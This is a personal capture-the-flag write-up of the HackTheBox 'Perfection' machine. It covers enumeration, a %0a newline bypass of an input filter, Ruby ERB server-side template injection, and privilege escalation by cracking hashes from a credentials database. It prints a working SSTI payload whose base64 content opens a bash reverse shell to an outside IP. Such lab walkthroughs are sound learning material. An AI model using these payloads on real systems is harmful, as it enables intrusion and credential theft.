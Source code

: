 ### Perfection Machine Write up 

I haven't made any machines in tryhackme or hackthebox for a long time, but now i'm starting with it again. Honestly i'll try to do more machines in hackthebox because tryhackme is getting a little boring, so let's go. On that machine i'm gonna try to use metasploit to organize the gathering information, let's see if it helps :). As i really don't know how to use it yet i'm gonna document everything down here to fix it in my memory. 

First of all, i need to download the postgresql to use the metasploit database and start the msfdb.

```bash
$ sudo pacman -S postgresql 
$ msfdb init
$ msfdb start
```

your output must be like this:

![[attachments/Pasted image 20240303163502.png]]

To check if everything is set up right, use db_status command after msfconsole. Before going straight to exploitation and crazy stuff we need to set up an workspace for us, the default workspace is "default" and you can check this using "workspace" command. I'm gonna create a new one to work in this room called akame_ws.

So now we can get started, start the machine in htb, connect to their vpn and add it in your hosts to make easier manipulate the address. 

Starting with a nmap scan to enumerate the machine below:

```bash
$ sudo nmap -Pn -sC -sV perfection.htb -oX perfection.xml | tee perfection_scan.log
```
-Pn - This flag disable the ping scan to see if the host or hosts are up and if they are, continue with the another scan such a port scan. This can be useful when you are enumerating a big network or more than one host, but in this case is useful so i disable it.

-sC - This flag is same that --script=default and it's related to the Nmap Script Engine(NSE), NSE is a feature from nmap that allow users to write and share scripts in Lua Language to useful network tasks and this scripts are executed in parallel your command runs and can be found at "/usr/share/nmap/scripts/". -sC means that nmap will use "defaults scripts" what means probably mean a bunch of scripts but it's useful(sometimes not stealth).

-sV - This flag is used to enumerate services and versions, when nmap finds a open port, he will tries to connect to get some information about what kinda of service it is and tries to guess the version. Again, is not the best choice if you are trying to be stealth again because it establish a connection from your machine to your target.

perfection.htb - Is the host name that you've added to your host file, it can be just the ip address too, doesn't change much.

-oX - I'm using this flag to generate a xml output to import using the msfconsole after the scan is done.

tee - The last one is a pipe and tee to send all output that is generate in terminal to perfection_scan.log file.

![[attachments/Pasted image 20240303173233.png]]

![[attachments/Pasted image 20240303173606.png]]
seeing the web page, looks like is a web site with a kinda of grade calculator with some inputs available at perfection.htb/weighted-grade

![[attachments/Pasted image 20240303174616.png]]

this inputs can be vulnerable to injections such as xss, but first i'm gonna analyze the all web site with developers tool and see what more we have.

![[attachments/Pasted image 20240303175054.png]]

it's a tip for users and looks like Susan is the admin, while i'm trying to explore this inputs i'm gonna let gobuster running to see if i can find any directory.

```bash
$ gobuster dir -u perfection.htb/ -w /usr/share/wordlist/directory.txt
```

So, while i was testing inputs i received this response here:

![[attachments/Pasted image 20240303180627.png]]

Maybe i can bypass this protection if it's client side, i'm gonna use burp to intercept the request and modify from there.

The protection was server side, i couldn't bypass it just avoiding javascript. I've spend a lot of time trying bypass this shit because every special characters were being blocked but only / and %. Because of the use of % is allowed i was thinking about html encode chars, but it doesn't help so much until i figure out that %0a was able to bypass the regex filter. After the "\n" or %0a, it doesn't filter and now i was able to insert whatever i want to. In this step i was thinking this as command injection directly in the machine but i was wrong. So after a lot tries i received a error message using this payload:

![[attachments/Pasted image 20240304161652.png]]

it's url encoded, normal must be look like this: mycategory%0a;<%= 7*7 %> 

but in that point i was thinking about how this shit works and doing some search looks like is a Server-Side-Template-Injection, i really underestimate this machine because the easy level but looks like here the things here are a little warmer. I didn't know this type of vulnerability so it's a good chance to learn.

This vulnerability appears when it's possible to use the native language syntax to inject malicious payloads, looking that way can be quite similar to sql injection, these payloads will run and being executed in somewhere, can be server-side or even loaded in user-side. Template are used for generate custom web pages, reusing static web pages elements while defining dynamic elements using parameters, like in this calculator. An template is getting my input and creating this result showing the grades to me. This [blog](https://medium.com/@olivia.j.01101001/how-to-use-php-templating-engines-for-web-development-6800c9048b9c) show good examples of template uses.

Using some portswigger examples:

`$output = $twig->render("Dear " . $_GET['name']);`

This is vulnerable to Server-Side-Template-Injection, but to exploit this you will need to use specific template syntax to escape from the render function and execute your own commands. There is a bunch templates that are being used thought the internet and to exploit one of these you need to identify the template engine and to achieve this you'll need to manually test different language-specif payloads and finding the right one in a process of elimination. 

In your case, according to the HackTricks website, the right one is called ERB and is the language is Ruby.

![[attachments/Pasted image 20240304172815.png]]

So now that we can execute commands, is simple to get a reverse shell, let's do it. 

![[attachments/Pasted image 20240304182704.png]]


```bash
category1=a///A77ss/e%0A;<%25%3d+system("echo IyEvYmluL2Jhc2gK
YmFzaCAgLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTIxLzIyMjIgMD4mMSIK | base64 -d | bash")+%25>+

```

It was the payload that i did use to get a reverse shell and get the user flag in home directory of Susan user.  The good notice was that Susan were part of sudo group, so the only think that i did need was figure out the susan password.

![[attachments/Pasted image 20240304182857.png]]

So doing some search between files and some output from linpeas.sh i found this email here:

![[attachments/Pasted image 20240304192638.png]]

Ok so all good so far, susan's password is something like "susan_nasus_??????????". But this wasn't to find the susan password because bruteforce 1 billion will take a long time, so i was thinking that might had something else and it did. I found a credentials.db inside the Migration folder in susan's home directory. This type of file can be used to "reconstruct" a database(this is what i understood) using tools like sqllitebrowser and that was i did.

![[attachments/Pasted image 20240304185352.png]]

![[attachments/Pasted image 20240304185259.png]]

And now we have some hashes and probably is more realistic try to use a tool to "brute-force" it. Was we already knew about a half of the password, i used some wildcards in hashcat to make the process a little quicker.

![[attachments/Pasted image 20240304192601.png]]

And there is:

![[attachments/Pasted image 20240304193125.png]]

now just spawn a bash terminal and got the root flag :)
![[attachments/Pasted image 20240304193420.png]]

A lot of fun doing this machine, i don't think the first part of this machine was easy because create a payload that properly works to get a shell was really pain in my ass exploiting this ssti vulnerability but the root flag was really easy tbh.

